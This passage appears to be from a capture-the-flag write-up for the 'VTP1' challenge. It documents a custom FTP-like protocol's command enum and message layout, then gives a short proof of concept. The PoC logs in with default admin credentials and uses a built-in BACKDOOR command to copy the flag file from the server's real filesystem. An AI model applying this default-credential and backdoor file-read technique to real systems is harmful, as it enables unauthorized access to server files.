 After `variable` is known, we should know how to use `variable` to send a VTP command.

Firstly there are 12 types of command implemented like FTP showed as follows.

```
enum zeroftp_cmd_type {
    ZEROFTP_LOGIN = 1,
    ZEROFTP_LS,
    ZEROFTP_CD,
    ZEROFTP_MKDIR,
    ZEROFTP_RMDIR,
    ZEROFTP_RDFILE,
    ZEROFTP_WRFILE,
    ZEROFTP_RMFILE,
    ZEROFTP_FILEINFO,
    ZEROFTP_SETFILEINFO,
    ZEROFTP_BACKDOOR,
    ZEROFTP_QUIT,
};
```

For example, if you want to send a ZEROFTP_LOGIN command,  `data` should starts with a `command_type` which is represented by `int variable` and its value is `1`. Following the `command_type` is `username(string)` and `password(raw)`.

You can check The following whole VTP commands specification.

```
LOGIN 		: command_type(int) + username(string) + password(raw)
LS 			: command_type(int) + filename(string)
CD 			: command_type(int) + dirname(string)
MKDIR 		: command_type(int) + dirname(string)
RMDIR 		: command_type(int) + dirname(string)
RDFILE 		: command_type(int) + filename(string)
WRFILE 		: command_type(int) + filename(string) + file_content(raw)
RMFILE 		: command_type(int) + filename(string)
FILEINFO 	: command_type(int) + filename(string) + fileinfo_type(int, optional)
SETFILEINFO : command_type(int) + filename(string) + fileinfo_type(int) + fileinfo(string or int)
BACKDOOR 	: command_type(int) + filename(string)
```

## Backdoor

Now to get the flag of VTP1,  you should use `BACKDOOR` command. `BACKDOOR` will read the file which is specified by the filename in the VTP command, in the server's real filesystem  and write the content to the self-made fs. But as you know, flag is stored as `here_is_your_flag/flag`, so you have to use `MKDIR` to make a directory called `here_is_your_flag` in the self-made fs before using `BACKDOOR`. Afterwards use `RDFILE` and get your first flag of VTP!

### Exploit

Here is PoC for VTP1

```
zeroftp_login('admin', 'admin')
zeroftp_mkdir('here_is_your_flag')
zeroftp_backdoor("here_is_your_flag/flag")
flag = zeroftp_rdfile("here_is_your_flag/flag")
log.info('get the flag:{}'.format(flag))
```
